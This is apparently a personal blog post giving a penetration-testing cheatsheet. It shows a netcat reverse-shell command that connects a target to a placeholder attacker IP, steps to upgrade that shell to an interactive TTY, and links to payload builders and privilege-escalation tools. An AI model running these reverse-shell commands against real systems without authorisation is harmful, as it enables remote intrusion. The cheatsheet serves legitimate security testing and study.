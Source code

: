 ```yaml
---
title: PenTest Cheatsheet
author: z3nn
date: 2020-09-18 20:31:00 +0200
categories: [Hacking, Cheatsheet]
description: Penetration Testing Cheatsheet
pin: true
tags: [hacking, pentest, cheatsheet, linux]
---
```


This cheatsheet is a compilation of the most used `things` I need when pentesting, I will try to link the refference for the information and give credit where credit is due.

## Reverse shell using netcat

Open listener on attacking machine.
```shell
$ nc -lnvp <Listening_Port>
```

On target machine open the reverse shell to the attacking machine's IP and open port
```shell
$ nc <Attacker_IP> <Attacker_Port> -e /bin/sh
```

> The target machine can open a reverse shell in multiple ways, use [PentestMoneky](http://pentestmonkey.net/) for various reverse shells
> A good PHP reverse shell can be found on [PentestMoneky](https://github.com/pentestmonkey/php-reverse-shell)'s github repo.


## Upgrading a reverse shell

```shell
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In attacking machine
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
```

> Other ways to upgrade a reverse shell can be found [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)


## MSFVenom payloads & more

I've found [PenTest.WS](https://pentest.ws/tools/venom-builder) to have a great online GUI tool to aid in creating MSF Venom payloads.
[PenTest.WS](https://pentest.ws/tools/shells) also contains various other tools like Reverse Shell builder.
I haven't yet used the `+ Create Engagement` option but will most likely have a go at it soon.


## PrivEsc

### Linux

No doubt, the best thing for me has been [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

### Windows

For Windows PrivEsc there are multiple things one can use to enumerate and look for PrivEsc options... Here's a few usefull things
* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
* [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [Powerless](https://github.com/M4ximuss/Powerless)

Another great tool to use in both PenTest and further enumeration where possible is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)


